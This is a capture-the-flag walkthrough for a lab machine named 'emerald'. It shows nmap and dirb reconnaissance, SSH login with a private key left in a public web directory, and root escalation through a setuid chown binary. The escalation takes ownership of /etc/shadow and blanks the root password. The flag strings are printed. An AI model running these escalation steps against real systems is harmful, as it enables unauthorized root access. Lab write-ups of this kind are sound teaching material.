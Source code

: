# 🖥 Walkthrough | emerald

## 1. Reconnaissance

An `nmap` scan reveals the following exposed services:

```bash
# nmap -A -p- 192.168.60.4
[..]
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 44:93:bd:32:c1:fe:6b:8f:8a:30:5f:c9:ea:21:44:5f (RSA)
|   256 d4:32:2c:4f:31:4d:42:46:e9:82:41:ca:87:2d:ff:00 (ECDSA)
|_  256 d2:f9:90:26:44:fd:34:2e:97:19:6e:d9:f0:1c:dc:64 (ED25519)
8080/tcp open  http    nginx 1.18.0
|_http-title: About Me
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.18.0
[..]
```

The output suggests that there is an SSH server on port 22 and an nginx web server on port 8080. The nginx website appears to only contain static contents:

![website](img/01.png)

One part of reconnaissance is to check for hidden contents. This includes web directories that are not listed publicly. This process is called directory busting.

In this step, we use the tool `dirb` for directory busting. We need to provide an URL as well as a *word list* (a text file containing words that will be checked as directory or file names).

```bash
# dirb http://192.168.60.4:8080/ /usr/share/wordlists/dirb/big.txt -r

[..]                                                        
---- Scanning URL: http://192.168.60.4:8080/ ----
==> DIRECTORY: http://192.168.60.4:8080/assets/
==> DIRECTORY: http://192.168.60.4:8080/drive/
[..]
```

The output above shows that there are two directories: `assets` and `drive`. Opening the `drive` directory in a web browser shows some interesting files:

![directory-listing](img/02.png)

The files `id_rsa` and `id_rsa.pub` seem to be an RSA key pair. Possibly for SSH?

## 2. SSH access

The `id_rsa.pub` file contains the string `clemence@emerald`. So it might be worth trying to log in as user `clemence` via SSH. After downloading the private key `id_rsa`, we can issue the following command to establish an SSH session:

```bash
ssh -i id_rsa clemence@192.168.60.4 
```

After confirming the fingerprint, we are successfully logged in as `clemence` and can retrieve the first token:

```bash
clemence@emerald:~$ cat token
This one's for you: EMERALD{d1r3ct0ry_bust1ng_g03s_brrrrr}
```

## 3. Privilege escalation

One way to elevate privileges are so-called `setuid` binaries. When a binary with the `setuid` flag is executed, it runs as its respective owner and not as the user who executed it. Some files like `sudo`, `su` or `passwd` require this flag to work properly.

The following `find` command scans for files with the `setuid` flag. Alternatively you could use a much more powerful tool like [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), which also lists `setuid` binaries.

```bash
clemence@emerald:~$ find / -type f -perm -4000 2>/dev/null
/usr/bin/chown
/usr/bin/passwd
/usr/bin/su
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/umount
/usr/bin/sudo
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```

It's unusual that the `chown` executable has the `setuid` bit set. Since it is owned by root, we can use it to change the ownership of arbitrary files and folders.

> **Tip**: If you want to know how to exploit a `setuid` flag on a certain binary, you can check out **GTFOBins**. [This is the section on chown](https://gtfobins.github.io/gtfobins/chown/#suid).

There are different ways to get root access. Our approach is the following:

1. Change ownership of `/etc/shadow` so that we can write to it:
   ```
   clemence@emerald:~$ chown clemence /etc/shadow
   ```
2. Edit `/etc/shadow` in an editor of our choice and set the root password to an empty string. To do this, change the first line to:
   ```
   root::0:[...keep the rest of the line as it is...]
   ```
3. Switch to the root user and read the second token:
   ```
   clemence@emerald:~$ su root
   root@emerald:/home/clemence# id
   uid=0(root) gid=0(root) groups=0(root)
   root@emerald:/home/clemence# cat /root/token
   Here's a little secret for you: EMERALD{setu1d_0n_wr0ng_b1n4ries_is_b4d}
   ```

And that's it. We're done!
